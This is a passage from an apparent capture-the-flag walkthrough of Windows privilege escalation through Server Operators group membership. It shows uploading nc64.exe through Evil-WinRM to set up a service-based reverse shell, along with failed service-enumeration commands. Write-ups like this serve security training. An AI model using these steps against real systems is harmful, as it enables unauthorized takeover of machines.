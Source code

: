     NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
    NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
    Mandatory Label\High Mandatory Level       Label            S-1-16-12288
    

There may be others of interest, but Server Operators jumps out immediately.
[This group](https://ss64.com/nt/syntax-
security_groups.html#:~:text=A%20built%2Din%20group%20that,and%20shut%20down%20the%20computer.)
can do a lot of things:

> A built-in group that exists only on domain controllers. By default, the
> group has no members. Server Operators can log on to a server interactively;
> create and delete network shares; start and stop services; back up and
> restore files; format the hard disk of the computer; and shut down the
> computer. Default [User Rights](https://ss64.com/nt/ntrights.html): Allow
> log on locally: SeInteractiveLogonRight Back up files and directories:
> SeBackupPrivilege Change the system time: SeSystemTimePrivilege Change the
> time zone: SeTimeZonePrivilege Force shutdown from a remote system:
> SeRemoteShutdownPrivilege Restore files and directories SeRestorePrivilege
> Shut down the system: SeShutdownPrivilege

### Malicious Service

#### Reverse Shell

This user can modify, start, and stop services, so I’ll abuse this by having
it run `nc64.exe` to give a reverse shell.

I’ll upload `nc64.exe` to Return:

    
    
    *Evil-WinRM* PS C:\programdata> upload /opt/netcat/nc64.exe
    Info: Uploading /opt/netcat/nc64.exe to C:\programdata\nc64.exe
                                                                 
    Data: 60360 bytes of 60360 bytes copied
    
    Info: Upload successful!
    

Cube0x0 has a [nice post](https://cube0x0.github.io/Pocing-Beyond-DA/) that
includes many privesc techniques, including this one.

Typically, I would want to get a list of services that this account can
modify, but it seems this user doesn’t have access to the Service Control
Manager:

    
    
    *Evil-WinRM* PS C:\programdata> sc.exe query
    [SC] OpenSCManager FAILED 5:
    
    Access is denied.
    *Evil-WinRM* PS C:\programdata> $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where {$_.access.IdentityReference -match 'Server Operators'}}
    Cannot open Service Control Manager on computer '.'. This operation might require other privileges.
    At line:1 char:12                                                                                        
    + $services=(get-service).name | foreach {(Get-ServiceAcl $_)  | where  ...                              
    +            ~~~~~~~~~~~                                                                                 
        + CategoryInfo          : NotSpecified: (:) [Get-Service], InvalidOperationException
        + FullyQualifiedErrorId : System.InvalidOperationException,Microsoft.PowerShell.Commands.GetServiceCommand
    